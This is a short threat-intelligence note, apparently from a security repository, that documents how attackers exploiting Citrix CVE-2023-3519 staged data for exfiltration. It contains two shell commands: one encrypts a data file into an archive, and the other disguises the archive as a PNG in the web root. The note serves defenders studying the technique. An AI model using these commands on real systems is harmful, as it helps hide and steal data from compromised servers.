 # Exfiltration

__TTP of Threat Actors Exploiting Citrix CVE-2023-3519__
```
tar -czvf - /var/tmp/data.txt | openssl des3 -salt -k <> -out /var/tmp/test.tar.gz
cp /var/tmp/test.tar.gz /var/www/html/images/medialogininit.png
```

